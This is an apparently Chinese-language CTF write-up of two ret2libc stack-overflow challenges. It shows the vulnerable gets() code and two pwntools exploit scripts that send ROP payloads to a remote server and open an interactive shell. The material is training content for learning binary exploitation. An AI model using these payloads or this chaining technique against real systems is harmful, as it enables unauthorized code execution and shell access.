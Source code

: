 eg1: [ret2libc1](https://github.com/ctf-wiki/ctf-challenges/blob/master/pwn/stackoverflow/ret2libc/ret2libc1/ret2libc1)

![img](https://my-md-1253484710.file.myqcloud.com/20190407175007.png)

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1Ch] [ebp-64h]

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets(&s);
  return 0;
}
```

![img](https://my-md-1253484710.file.myqcloud.com/20190407175502.png)

![img](https://my-md-1253484710.file.myqcloud.com/20190407175715.png)

exp1:

```python
from pwn import *

# io = process('./ret2libc1')
io = remote("47.106.212.155",10006)
binsh_addr = 0x08048720
sym_plt_addr = 0x08048460

payload = flat([112*'A',sym_plt_addr,'b'*4,binsh_addr])
# 'bbbb' 作为函数调用栈返回地址的虚假的地址

io.sendline(payload)
io.interactive()
```

---

eg2:

[ret2libc2](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc2/ret2libc2)

缺少/bin/sh 只能自己寻找gadgets来进行构造。

exp:

```python
from pwn import *

# io = process('./ret2libc2')
io = remote("47.106.212.155",10007)
# binsh_addr = 0x08048720
sym_plt_addr = 0x08048490
sym_imp_gets_addr = 0x08048460
pop_ebx_addr = 0x0804872f
buf2_addr = 0x804a080

payload = flat(["A"*112,sym_imp_gets_addr,pop_ebx_addr,buf2_addr,sym_plt_addr,'x'*4,buf2_addr])
io.sendline(payload)
io.sendline("/bin/sh")
io.interactive()
```
